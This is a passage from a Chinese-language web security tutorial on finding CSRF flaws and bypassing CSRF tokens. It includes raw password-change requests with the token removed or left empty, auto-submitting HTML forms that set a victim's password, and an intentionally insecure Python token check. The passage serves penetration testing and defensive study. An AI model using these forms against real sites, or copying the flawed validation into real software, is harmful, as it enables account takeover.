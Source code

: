 HTML 的`<img>`标签从外部源加载图像。它将向其`src`属性中指定的 URL 发送一个 GET 请求。

如果在加载该 HTML 页面后发生密码更改，你可以确认该端点通过 GET 请求存在 CSRF 漏洞。另一方面，如果原始操作通常使用 GET 请求，你可以尝试将其转换为 POST 请求。

### 绕过存储在服务器上的 CSRF 令牌

但是，如果点击劫持和更改请求方法都不起作用怎么办？如果网站通过令牌实现 CSRF 保护，以下是你可以尝试的几个方法。

仅仅因为网站使用了 CSRF 令牌，并不意味着它正确地验证了这些令牌。如果网站没有以正确的方式验证 CSRF 令牌，你仍然可以通过对恶意 HTML 页面进行一些修改来实现 CSRF 攻击。

首先，尝试删除令牌参数或发送空的令牌参数。例如，以下将发送一个没有`csrf_token`参数的请求：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`
(POST request body)
new_password=abc123
```

你可以使用如下的 HTML 表单来生成这个请求：

```
<html> <form method="POST" action="https://email.example.com/password_change" id="csrf-form"> <input type="text" name="new_password" value="abc123"> <input type='submit' value="Submit"> </form> <script>document.getElementById("csrf-form").submit();</script>
</html>
```

下一个请求将发送一个空的`csrf_token`参数：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`
(POST request body)
new_password=abc123&**csrf_token=**
```

你可以通过使用以下 HTML 表单来生成这样的有效载荷：

```
<html> <form method="POST" action="https://email.example.com/password_change" id"csrf-form"> <input type="text" name="new_password" value="abc123"> <input type="text" name="csrf_token" value=""> <input type='submit' value="Submit"> </form> <script>document.getElementById("csrf-form").submit();</script>
</html>
```

删除令牌参数或发送空令牌参数通常有效，因为常见的应用程序逻辑错误。应用程序有时只会在令牌存在时，或者令牌参数不为空时检查令牌的有效性。不安全的应用程序验证机制的代码可能大致如下所示：

```
def validate_token():1 if (request.csrf_token == session.csrf_token): pass else:2 throw_error("CSRF token incorrect. Request rejected.")
[...]
def process_state_changing_action(): if request.csrf_token: validate_token()3 execute_action()
```

这段 Python 代码首先检查 CSRF 令牌是否存在 1。如果存在，代码将继续验证令牌。如果令牌有效，代码将继续执行。如果令牌无效，代码将停止执行并产生错误 2。另一方面，如果令牌不存在，代码将跳过验证，直接执行操作 3。在这种情况下，发送没有令牌的请求或将令牌设置为空值，可能意味着服务器根本不会尝试验证令牌。
